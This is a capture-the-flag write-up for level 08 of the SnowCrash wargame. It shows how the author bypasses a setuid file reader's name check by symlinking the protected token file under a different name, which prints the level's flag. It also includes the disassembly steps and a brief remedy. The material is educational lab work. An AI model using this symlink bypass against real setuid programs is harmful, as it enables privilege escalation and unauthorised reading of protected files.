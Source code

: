 Level 08
========

*	We spawn with two files at root
	```console
	level08@SnowCrash:~$ ls -l 
	total 16
	-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
	-rw-------  1 flag08 flag08    26 Mar  5  2016 token
	```
*	We can't read token (I am guessing this is your password/flag)
*	But we can execute `level08`
	```console
	level08@SnowCrash:~$ ./level08 
	./level08 [file to read]
	```
*	We are obviously trying this one even thought I doubt it
	```console
	level08@SnowCrash:~$ ./level08 token
	You may not access 'token'
	```
*	From now on, nothing change, we still can't read token, so I decided to do like in the level03 and try to get a good look at the code
	```console
	root@DESKTOP-69N2SL4:~# scp -P 4242 level08@192.168.29.3:/home/user/level08/level08 .
	root@DESKTOP-69N2SL4:~# objdump -M Intel -d level08 > dump.s
	root@DESKTOP-69N2SL4:~# sh cutlines.sh
	```
*	After reading the code I could notice that it was searching for a namefile with strstr containing the word `token` in it
*	At the end, all we had to do is this (I added a mistake exemple to prove the strstr theory)
	```console
	level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/tokentest
	level08@SnowCrash:~$ ./level08 /tmp/tokentest
	You may not access '/tmp/tokentest'
	level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/link
	level08@SnowCrash:~$ ./level08 /tmp/link
	quif5eloekouj29ke0vouxean
	```
*	Btw I got scared since this password didn't work for the level09 but at the end its just the flag08 password

REMEDY
======

Protect command instead of just restricting the file name